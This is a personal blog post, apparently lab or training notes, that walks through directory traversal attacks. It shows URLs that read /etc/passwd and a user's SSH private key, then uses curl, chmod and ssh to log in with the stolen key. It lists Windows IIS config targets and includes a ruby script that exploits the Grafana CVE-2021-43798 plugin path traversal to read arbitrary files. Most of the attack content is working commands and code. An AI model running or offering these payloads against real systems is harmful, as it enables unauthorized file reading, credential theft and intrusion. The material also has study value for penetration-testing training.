 ```yaml
---
layout: post
title: Directory Traversal Exploit
titledate: 08/27/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell","dir_traversal", "http"]
---
```


<h4>Linux</h4>

When browsing a site we can hover over links to get an idea of the directory structure of the web application on the server.

Of course using tools like gobuster or feroxbuster can help us enumerate this dir structure easily, but it may be possible to perform directory traversal attack by traversing directories to try to access content outside of the web server

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../etc/passwd

You only need to give the minimum number of ../ to get to the root directory from the current working directory of the web page you are on, however, since there is no maximum we can just provide a large number of ../ to get to the root path

From the above command we can obtain a list of users on the system. With this information we learn about a user DON. We can try to find DON's ssh key with a typical directory layout 

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

If this request returns the private ssh key for don , we should use a different procedure to obtain the key as displaying content in the web browser can often get skewed as many characters may not be properly encoded. We can use wget, curl, or python/ruby to retrieve this information

    $ curl http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

Once we obtain the key we need to change the permissions on it because they are too open

    $ chmod 400 don_key

Now we can attempt to ssh to the machine hosting the vulnerable web server

    $ ssh -i don_key -p 2222 don@vulnwebapp.com

<h4>Windows</h4>

Windows is a little more difficult to obtain useable information than linux

    $ C:\Windows\System32\drivers\etc\hosts

This file should be accessible by all users and useful to try dir traversal attacks

<h3>We can not reach useful ssh data like we do for Linux, but information disclosure can still be relevant depending on what directory contents we can disclose</h3>

    $ C:\inetpub\logs\LogFiles\W3SVC1
    $ C:\inetpub\wwwroot\web.config

The files above both contain information about the IIS server, so it is always worth probing the directories to see what we can find

<h4>Grafana Use Case</h4>

This exercise requires us to ty to use a dir traversal against Grafana. We are given the CVE (vulnerability), so we have to assume we would not know this information. To begin we would need to identify the Web App Grafana and version, or at the least the Software name (Grafana) and if it doesn' have a lot of publicaly disclosed vulnerabilities then we can fire from the hip and see what sticks

In this case as expressed we are given the CVE 2021-43798 , reading the NVD description we can already glean tons of info - the vuln is a dir path traversal in the /public/plugins//{plugin} directory. So while there are publicaly available exploits for this - we don't need them

First we need to identify what plugin is installed 
I began by running gobuster and feroxbuster against the plugins directory but they did not find anything... so we need to create a custom wordlist of plugins available to Grafana

    $ curl https://grafana.com/grafana/plugins/all-plugins/ -o plugins

This downloads plugins listed on their site from their all-plugins page in an html file

```ruby
data = File.open("/home/kali/plugins","r"){|f| f.read }
plugins = data.split('href=/grafana/plugins/')
# i started at 8 bc i could visibly see that's where the list starts
# with a bunch of garbage we don't care about above
plugins[8..-1].each do |plugin|
  name = plugin.split('/><div>')
  File.open("/home/kali/plugin_name","a"){|f|f.write("#{name[0]}\n")}
end
```

This gives us a line delimted list of 369 plugins to brute force with gobuster or feroxbuster
...

Unfortunately - After failing to get any useable response codes from requesting the above base uri + /public/plugins/{plugin} I have determined that you would need to try the traversal 1 at a time per plugin... this really goes sums up my earlier point that you need to know the version of the application and then look for the canned exploit. 

I could write a script to iterate through the plugins 1 at time that i already created, but it turns out searchsploit has an attack for this already

Looking at the python searchsploit script i can see that it chooses 1 plugin randomly? and does not seem to work well for this use case, so i wrote a small ruby script to use the line delimitted plugins file i scraped

```ruby
#!/usr/bin/env ruby
def pwn
  plugin_file = File.open("/home/kali/plugin_name","r") do |f|
    f.each_line { |line|
      line = line.chomp
      puts "trying #{line}"
      # public/plugins is the vulnerable root of the plugin we can understand from the NVD CVE disclosure -
      # sucks we can't get a useable response from directory fuzzing
      cmd = "curl --path-as-is http://#{ARGV[0]}/public/plugins/#{line}/../../../../../../../../../../../#{ARGV[1]}"
      puts "trying #{cmd}"
      system(cmd)
    }
  f.close
  end
end

if ARGV[0] == '-h' || ARGV[0] == '--help' || ARGV[0] == nil
  puts "[+] plugin_pwn.rb ip file"
  puts "[+] where ip is ipaddress"
  puts "[+] and file is file to read"
  exit
else
  puts "[+] probing.. #{ARGV[0]}"
  pwn
end
```

So to execute it 

    $ ruby plugin_pwn.rb 192.168.255.190:3000 Users/install.txt

Most likely this script won't be useable in the future.. from this exercise I learned that it won't be easy to identify file/directory structures always and that if there isn't enough available information on the vulnerability it will take TOO MUCH time .. so look for what's available and it will make modifying the attack easier
